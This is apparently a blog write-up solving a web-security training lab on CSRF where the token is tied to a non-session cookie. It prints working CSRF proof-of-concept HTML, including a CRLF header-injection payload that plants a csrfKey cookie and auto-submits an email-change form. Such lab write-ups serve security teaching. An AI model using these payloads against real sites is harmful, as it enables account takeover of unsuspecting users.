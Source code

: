 ```yaml
---
layout: post
title:  "CSRF where token is tied to non-session cookie"
date:   2024-10-06 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Solution 

After login, just like the other labs what we saw on a CSRF vulnerability on `Update email` but there will be certain measures in order to bypass it 

If update the email and this is how request and response looks like 

![]({{ site.baseurl }}/assets/images/csrf-30.png)

Now what I did, let's generate a simple CSRF POC and check in the current user session which is `wiener` and it works and updated the email to what I provided 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="2&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="f3QjcLNuEvtdJ2kz3MPz0wYHq83LZKli" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

For wiener it works, but with the CSRF I logged in as `carlos` and checked the POC it didn't workout because of `Invalid CSRF token`

![]({{ site.baseurl }}/assets/images/csrf-31.png)

Let's finetune the CSRF POC and our first step to copy the CSRF token from source page once after login as `carlos` and copy the `csrfKey` by intercepting the update email and copy it from the header 

![]({{ site.baseurl }}/assets/images/csrf-32.png)

Fine tuned CSRF POC looks like as follows:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker233333&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="HVXSXAHpIyEbsNBBLt9LO2rxlKWTGzub" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrfKey=KosN7sSRNilWGKqc6ihUuKUhprqtGQyn%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

let's debug on how it works, in the home page we have a search functionality where it is vulnerable to a CRLF attack through we can inject the `csrfKey` where we copied and copy the CSRF token from `POST` body of `carlos` user when you update the email.. If all goes well, when paste the CSRF POC into the exploit server and then click on `Store -> Deliver the exploit to victim` and that solves the lab 

![]({{ site.baseurl }}/assets/images/csrf-33.png)